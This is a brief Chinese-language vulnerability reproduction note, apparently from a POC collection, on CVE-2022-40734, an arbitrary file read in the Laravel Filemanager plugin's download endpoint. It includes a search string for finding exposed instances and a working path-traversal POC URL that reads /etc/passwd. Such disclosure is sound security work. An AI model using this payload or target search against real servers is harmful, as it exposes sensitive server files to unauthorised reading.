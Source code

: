 # Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

```
Laravel Filemanager插件
```

## 网络测绘

```
"Laravel Filemanager"
```

## 漏洞复现

主页面

![image-20221008100131910](./images/202210081001002.png)

验证POC

```
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

![image-20221008100154056](./images/202210081001131.png)